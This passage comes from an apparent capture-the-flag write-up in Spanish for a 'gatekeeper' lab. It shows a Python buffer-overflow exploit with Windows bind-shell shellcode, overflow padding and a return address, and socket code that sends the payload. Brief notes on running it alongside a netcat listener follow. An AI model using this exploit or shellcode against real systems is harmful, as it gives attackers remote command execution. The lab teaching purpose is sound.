 shellcode += "\x53\x41\x53\x54\xff\x75\xe0\x8b\x45\xe8\xff\xd0\x89\x45\xdc\x31\xdb\x66\xbb\x90\x01\x29\xdc\x54\x53\x8b"
shellcode += "\x45\xdc\xff\xd0\x31\xd2\x66\xba\x74\x41\x52\x68\x6f\x63\x6b\x65\x68\x57\x53\x41\x53\x54\xff\x75\xe0\x8b"
shellcode += "\x45\xe8\xff\xd0\x89\x45\xd8\x31\xdb\x53\x53\x53\x31\xc9\xb1\x06\x51\x43\x53\x43\x53\x8b\x45\xd8\xff\xd0"
shellcode += "\x89\x45\xd4\x31\xdb\x53\x66\x68\x11\x5c\x80\xc3\x02\x66\x53\x89\x65\xd0\x31\xc9\x51\x68\x62\x69\x6e\x64"
shellcode += "\x54\xff\x75\xe0\x8b\x45\xe8\xff\xd0\x89\x45\xcc\x6a\x10\xff\x75\xd0\xff\x75\xd4\x8b\x45\xcc\xff\xd0\x31"
shellcode += "\xc9\x66\xb9\x65\x6e\x51\x68\x6c\x69\x73\x74\x54\xff\x75\xe0\x8b\x45\xe8\xff\xd0\x89\x45\xc8\x31\xc9\x51"
shellcode += "\xff\x75\xd4\x8b\x45\xc8\xff\xd0\x31\xc9\x66\xb9\x70\x74\x51\x68\x61\x63\x63\x65\x54\xff\x75\xe0\x8b\x45"
shellcode += "\xe8\xff\xd0\x89\x45\xc4\x31\xc9\x51\x51\xff\x75\xd4\x8b\x45\xc4\xff\xd0\x89\x45\xc0\xba\x63\x63\x6d\x64"
shellcode += "\xc1\xea\x08\x52\x89\x65\xbc\x31\xd2\x83\xec\x10\x89\x65\xb8\x31\xd2\xff\x75\xc0\xff\x75\xc0\xff\x75\xc0"
shellcode += "\x52\x52\x31\xc0\x40\xc1\xc0\x08\x40\x50\x52\x52\x52\x52\x52\x52\x52\x52\x52\x52\x31\xc0\x04\x44\x50\x89"
shellcode += "\x65\xb4\x31\xd2\x66\xba\x73\x41\x52\x68\x6f\x63\x65\x73\x68\x74\x65\x50\x72\x68\x43\x72\x65\x61\x54\xff"
shellcode += "\x75\xf8\x8b\x45\xe8\xff\xd0\x89\x45\xb0\x31\xd2\xff\x75\xb8\xff\x75\xb4\x52\x52\x52\x31\xc0\x40\x50\x52"
shellcode += "\x52\xff\x75\xbc\x52\x8b\x5d\xb0\xff\xd3\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f\x63"
shellcode += "\x68\x45\x78\x69\x74\x54\xff\x75\xf8\x8b\x45\xe8\xff\xd0\x89\x45\xac\x31\xd2\x50\x8b\x45\xac\xff\xd0"



#0x080414c3
#badchars 0x00 0x0a 0x0d
overflow =  '\x41' * 146
overflow += '\xc3\x14\x04\x08'
overflow += shellcode



s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(overflow + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")

 ```
Tenemos que cambiar la ip por el TARGET_IP y escuchar en el puerto 444 a continuación ,abriremos dos CMD , en una estaremos escuchando con NETCAT (TARGET_IP) (PORT) y en la otra ejecutaremos el gatekeeper.py teniendo esta foto como resultado.

![24](https://user-images.githubusercontent.com/107126653/172870160-13840a00-aecc-4e5f-a446-826237e737dd.png)




# ESCALACIÓN DE PRIVILEGIOS EN LINUX




Ejecutamos el gatekeeperwriteup.py dando como resultando:
 ```